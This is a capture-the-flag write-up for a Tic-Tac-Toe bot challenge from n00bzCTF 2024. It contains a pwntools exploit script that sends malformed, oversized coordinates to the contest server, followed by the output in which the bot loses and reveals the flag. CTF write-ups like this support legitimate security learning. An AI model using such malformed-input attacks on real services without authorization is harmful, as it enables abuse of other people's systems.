

						

## Challenge's Description 

You cannot beat my Tic-Tac-Toe bot! If you do, you get a flag! Author: `NoobMaster`
### Attachments

- [thinkoutsidethebox.zip](https://static.n00bzunit3d.xyz/Pwn/Think-outside-the-Box/thinkoutsidethebox.zip)

## Solution

This challenge in my opinion is more like misc-pwn than a casual pwn chall but it was fun!

If we reverse it and try to beat it with just normal moves we will see isn't possible and the best outcome that we could do it's just a draw. So, we must think a way to confuse the binary to lose.
After I while I manage to beat it with this tactic. 
I listed many more coordinates than expected and the bot got confused and started to lose rounds. So, we can play in whatever move we want to do a ticktacktoe and win!

**exploit.py**

```python
#!/usr/bin/env python3
from pwn import *

#p = process('./tictactoe')
p = remote('challs.n00bzunit3d.xyz', 10308)

p.recv(1000)

p.sendline(b'0,111111111111111111111111')
p.sendline(b'1,111111111111111111111111')
p.sendline(b'2,111111111111111111111111')
p.sendline(b'2,2')

success(p.recvall()) 
```

```sh
┌──(vein㉿vein)-[~/sec/n00bzCTF2024/pwn-Think_Outside_The_Box]
└─$ ./exploit.py    
[+] Opening connection to challs.n00bzunit3d.xyz on port 10308: Done
[+] Receiving all data: Done (534B)
  self._log(logging.INFO, message, args, kwargs, 'success')
[+]  _ | _ | _ 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | _ 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | O 
    ---|---|---
     _ | X | _ 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | _ 
    Bot turn!
     _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | _ 
    Move:  _ | _ | O 
    ---|---|---
     _ | X | O 
    ---|---|---
     _ | _ | O 
    You won! Flag: n00bz{l173r4lly_0u7s1d3_7h3_b0x_L0L_d398529a6316}
```